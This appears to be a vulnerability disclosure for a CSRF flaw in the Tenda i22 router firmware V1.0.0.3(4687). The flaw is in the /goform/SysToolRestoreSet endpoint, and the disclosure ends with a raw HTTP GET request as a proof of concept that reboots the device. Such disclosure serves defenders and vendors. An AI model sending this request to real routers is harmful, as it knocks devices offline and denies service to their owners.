



# Tenda i22 V1.0.0.3(4687) is vulnerable to Cross Site Request Forgery (CSRF) via function fromSysToolRestoreSet

## Description

`Tenda`  Router **i22 V1.0.0.3(4687)** is vulnerable to Cross Site Request Forgery (CSRF) via function `fromSysToolRestoreSet`

## Firmware information

* Manufacturer's address: https://www.tenda.com.cn/

* Firmware download address : https://www.tenda.com.cn/download/detail-2747.html

## Affected version


## Vulnerability details

This vulnerability lies in the `/goform/SysToolRestoreSet` page，The details are shown below:





It allows remote attackers to reboot the device and cause denial of service via a payload hosted by an attacker-controlled web page.

## POC

This POC can result in a Dos.

```
GET /goform/SysToolRestoreSet HTTP/1.1
Host: 192.168.204.133
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: bLanguage=cn; password=jbl1qw; user=
Connection: close


```

